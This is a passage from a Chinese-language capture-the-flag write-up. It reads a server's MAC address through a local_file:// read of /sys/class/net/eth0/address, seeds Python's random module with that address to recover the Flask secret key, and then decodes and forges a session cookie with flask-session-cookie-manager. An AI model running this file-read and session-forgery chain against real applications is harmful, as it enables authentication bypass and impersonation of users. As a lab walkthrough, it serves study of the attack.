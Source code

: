 - 那么就需要读取Mac地址local_file:///sys/class/net/eth0/address

![alt text](images/image-11.png)

```
02:42:ac:02:fe:64
```

- 然后我们使用python得到密钥

```python
>>> import random
>>> random.seed(0x0242ac02fe64)
>>> print(str(random.random()*233))
41.95403334953624
```

- 然后利用Flask-Session脚本解密

```
https://github.com/noraj/flask-session-cookie-manager
```

- 我们在网站上取得session后放到脚本中运行，我们上面得出的密钥是py3得出来的结果，但是跑出来会报错，因此用py2跑出来的密钥进行操作即可

![alt text](images/image-12.png)

```python
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Z7WPug.uOXqvm0Zkm8mCg42ri479FAQxUw' -s '41.9540333495'
```

![alt text](images/image-13.png)

- 接着我们用脚本进行encode

```python
python3 flask_session_cookie_manager3.py encode -s '41.9540333495' -t "{'username': b'fuck'}"
```

![alt text](images/image-14.png)

